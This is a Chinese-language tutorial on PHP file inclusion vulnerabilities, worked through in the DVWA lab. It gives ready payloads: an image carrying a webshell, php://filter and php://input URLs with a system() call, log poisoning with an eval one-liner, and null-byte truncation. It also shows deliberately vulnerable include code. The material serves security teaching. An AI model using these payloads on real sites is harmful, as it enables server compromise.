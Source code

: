 #文件包含类
<br>
* 在PHP程序中出现较多，其他的较少

##文件包含漏洞分类及上传技巧

* 包含漏洞简介：<br>
  包含操作，在大多数web语言中都会提供的功能（比如包含一些跨站、防注入程序等），但PHP对于包含文件所提供的功能太强大、灵活，所以包含漏洞经常出现在PHP语言中，这也就导致出现了一个错误现状，很多初学者认为包含漏洞只出现在PHP语言之中，殊不知在其他语言中可能出现包含漏洞。这也应了一句老话：功能越强大，漏洞就越多。

*  PHP包含漏洞分类<br>
   包含漏洞不是语言的问题，而是人的思维问题！<br>
   PHP中的四个包含文件函数：include() , include_once() , require() 和 require_once() （在源码审计中，一定要留心有没有这四个函数，有的话过滤是不是严格有没有漏洞）。<br>
   下面我们一起来看PHP文件中的包含：
   + 1、本地包含LIF（一般）
   + 2、远程包含RLF，必须要PHP的配置文件PHP.XXX中有allow_url_include = on

###0X00 PHP本包含实例<br>
   * 当任何文件上传成功后，被以上四种PHP包含函数包含后，无论是什么文件格式，都会以PHP格式解析。所以如果在文件中插了木马，这个时候就很危险了。

###0X01 本地包含漏洞与图片结合<br>
   1. 将木马程序加载到图片里面去:
	   + 打开一张正常图片
	   + 随便找一个木马
	   + 使用edjpgcom.exe软件将木马插入到图片中
   2. 将图片上传，一般网站都不会拦截（此时图片还是可以正常打开的）
   3. 通过存在包含漏洞的页面来包含刚上传带一句话木马的图片
   4. ！！！【一定要注意相对路径】，page=../../hackable/uploads/test.jpg

###0X02 PHP远程包含实例
   1. 首先打开C:\php\php-5.2.14-win32\php-apache2handler.ini文件（大家的文件路径不一定是这个，大家一般的路径是php.ini），找到allow_url_include = off这一行，【把off改成on】
   2. 然后找到存在包含漏洞的页面，将包含函数的参数改为远程的一个页面（远程地址），如[page = http://192.168.1.103:8080/index.asp]，能看到直接运行起来了。如果index.asp是一个木马呢或者是一个php的木马页面呢？是不是也能运行起来，很危险了吧。



##文件包含读写文件

###0X03 PHP包含读文件
* 如： http://192.168.2.55:8080/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=x.php , 访问URL，得到经过base64加密后的字符串。经解密还原即可得到x.php。
* 【page(参数)=php://filter/read=convert.base64-encode/resource=xXX.php】有时候需要将read变成大写Read来绕过一些过滤，如sctf的homework
* http的内置协议是php协议php://filter
* 【条件】：服务端一定要有传入参数的过程，不管客户端是以$_GET形式还是$_POST形式提交的数据。

###0X04 PHP包含写文件
*  构造URL: http://192.168.1.55:8080/dvwa/vulnerabilities/fi/?page=php://input ， 并且提交post数据为<?php system('netuser');?>?????【即自己要写入的内容】
*  ！！【注意】：只有allow_url_include为on的时候才可以使用，如果想查看回显结果那必须在C:\php\php-5.2.14-Win32下找到php-apache2handler.ini打开，查找dispaly_funtions=proc-open,oppen.exec.system......（这些都是危险的命令，一定不要打开。因为一般写web程序用不到这些命令，建议直接删掉）删掉sysytem重启Apache。

###0X05 PHP包含日志文件
* 当某个PHP文件存在本地包含漏洞，而却无法上传正常文件，这就意味着有包含漏洞却不能拿来利用，这时攻击者就有可能会利用Apache日志文件来入侵。
* Apache服务器运行后会生成两个日志文件，这两个文件是access.log（访问日志）和（错误日志），Apache的日志文件记录下我们的任何操作，并且写到访问日志文件access.log之中（时间、IP地址）
* 当没有开启远程包含、文件上传时，只能通过包含日志文件了<br>
  (必须要知道当前网页路径和日志的默认路径，然后来构造)
  1. 先在网址后面接/php<?php eval一句话木马?>访问，日志access.log会记录这一行为
  2. 包含日志文件access.log。【这一步必须要知道当前网页路径和日志的默认路径，然后来构造】
     + 构造：http://......./fi/?page=../../../../Apache-20/logs/access.log
     + 确保当前网站目录的../../../../的最终目录与Apache-20文件夹在一个目录下。
   3. 访问，看到页面上出现一句话木马。菜刀链接即可。

###0X06 截断包含
* 
```
<?php
   if(isset($_GET['page'])){
      include $_GET['page'].".php";
   }else{
      include 'home.php';
   }
?>
```
* 这种方法只适合magic quotes gpc=off的时候，在PHP的老版本中也是存在着一些其他的截断问题，不过现在已经很难见到了，比如：index.php?file=info.txt////......超过一定数据的/。
* 例如： ....../?page=1.jpg%00即可

###0X07 PHP内置协议
* PHP带有很多内置URL风格的封装协议，可用于类似fopen()、copy()、file_exists()和filesize()的文件系统函数
* 具体协议请参照http://www.php.net/manual/zh/wrappers.php
* 图片1

###0X08 PHP远程包含防御
* 以DVWN-File Inclusion为例，安全级别低中高
  + low:

    ```
    <?php $file = $_GET['page']; //The page we wish to display ?>
    ```
  + Medeium:

    ```
    <? php
       $file = $_GET['page']; //The page we wish to display
       //bad input validation
       $file = str_replace("http://"," ", $file); //在传入的$file中搜索http://，替换成空格后，重新赋给$file
       $file = str_replace("https://"," ", $file); // 易绕过，函数str_replace区分大小写，一旦大写等于没做防御
    ?>
  ```
  
  + High:

     ```
     <? php
        $file = $_GET['page']; //The page we wish to display 
        //Only allow include.php
        if ($file != "include.php"){
           echo "ERROR: File not found";
           exit;
        }
      ?>
    ```
    
###运用实例：
* 从网上下载copyright2007-2011 易酷CMS Some Rights Reserved版本到本地测试
* 漏洞利用过程（包含日志文件）： http://www.wooyun.org/bugs/wooyun-2010-061639
* 在本地模拟这些实验
